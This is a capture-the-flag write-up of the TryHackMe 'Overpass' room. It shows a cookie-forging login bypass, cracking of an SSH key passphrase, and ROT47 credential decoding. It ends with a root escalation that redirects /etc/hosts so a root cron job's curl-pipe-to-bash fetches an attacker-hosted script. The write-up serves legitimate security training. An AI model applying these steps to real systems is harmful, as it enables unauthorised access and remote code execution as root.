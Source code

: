 # Overpass WriteUp https://tryhackme.com/room/overpass by g0at

## 1.Scanning with nmap for open ports and services

![](1)
* * * 
we see that port 80 is open

![](2)

we go to the downloads page and find the source code to the password manager, which is written in Go and a build script

![](3)

I couldn't find anything useful in it, so we'll leave it for now

## 2.Brute forcing directories

We're gonna find some directories with [dirsearch](https://github.com/maurosoria/dirsearch)

`python3 dirsearch.py -u http://10.10.210.84/ -e html,js,php`

![](4.png)

we navigate to `/admin/?/login`

![](5.png)

trying to log in with weak credentials, such as `admin:admin`, failed

![](6.png)

after some messing around, I finally notice some stuff in `login.js`

![](7.png)

there is a function for data encoding and making the POST request, but the one we're interested in is this:

```js
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}

```

especially these last few lines:
```js
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
```

so, when we try to log in with wrong credentials,the response we get is `"Incorrect credentials"`, so nothing happens  
but if we get the right credentials, it sets the `SessionToken` cookie to the value `statusOrCookie` and points us to `/admin`  

What if we try to manually set the cookie to some status value?  
```js
Cookies.set("SessionToken",400)
```
With the cookie set, we navigate to the `/admin` page  
![](8.png)

and as you can see, we get a RSA private key

## 3. SSHing into the machine

We save the key to `id_rsa`, now it's time to find the passphrase  
First, we use `ssh2john.py`, which you can download from github to generate the hash, and we save it to `id_rsa.hashes`  

![](9.png)

Then we use john for cracking the passphrase  

![](10.png)

We login using the key as `james`  
![](11.png)

Then we get the flag
![](12.png)

* * * 
## 3.Escalating our privileges

First thing we notice is a `todo.txt` with the following content.  
```
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```

We get some interesting information from this:  
* There is some kind of password in the password manager they wrote
* The encryption is weak
* There is some kind of automated build script running

Ok, remember the source code we got from the first step? There is some interesting stuff in it:  
```go
func main() {
	credsPath, err := homedir.Expand("~/.overpass")
	if err != nil {
		fmt.Println("Error finding home path:", err.Error())
	}
	//Load credentials
    passlist, status := loadCredsFromFile(credsPath)
    ...
```
The credentials are stored in `~/.overpass`  

![](13.png)

There is another interesting function in the source code: 
```go
func rot47(input string) string {
	var result []string
	for i := range input[:len(input)] {
		j := int(input[i])
		if (j >= 33) && (j <= 126) {
			result = append(result, string(rune(33+((j+14)%94))))
		} else {
			result = append(result, string(input[i]))
		}
	}
	return strings.Join(result, "")
}
```  
So it seems they use `ROT47`, we use [CyberChef](https://gchq.github.io/CyberChef/) to decrypt it  
![](14.png)
* * *
Moving on, we try to find the automatic build script, so we look in `/etc` for cron jobs and we find one: 

![](15.png)

It seems like is runs the same script we found on the `/downloads` page as **root**.  
It also runs every minute.  
```bash
GOOS=linux /usr/local/go/bin/go build -o ~/builds/overpassLinux ~/src/overpass.go
GOOS=windows /usr/local/go/bin/go build -o ~/builds/overpassWindows.exe ~/src/overpass.go
GOOS=darwin /usr/local/go/bin/go build -o ~/builds/overpassMacOS ~/src/overpass.go
GOOS=freebsd /usr/local/go/bin/go build -o ~/builds/overpassFreeBSD ~/src/overpass.go
GOOS=openbsd /usr/local/go/bin/go build -o ~/builds/overpassOpenBSD ~/src/overpass.go
echo "$(date -R) Builds completed" >> /root/buildStatus
```

Notice in the cron job that is makes a get request with **curl** to `overpass.thm/downloads/src/buildscript.sh`

* * * 

Let's check the `/etc/hosts` file  

![](16.png)

Nice! It seems that we have write permissions  
Let's change the ip of `overpass.thm` to our VPN ip
(you can find it using `ip a`, or from the acces page on tryhackme)  

We open `/etc/hosts` using **vim** and we write our ip address
![](17.png)

* * *

Alright, since the cron job requests from `curl overpass.thm/downloads/src/buildscript.sh | bash` we have to make a directory and write our build script with the following content:
```bash
cat /root/root.txt > /home/james/stuff.txt
```

![](18.png)

Starting our simple web server:

![](19.png)

And we get the flag  

![](20.png)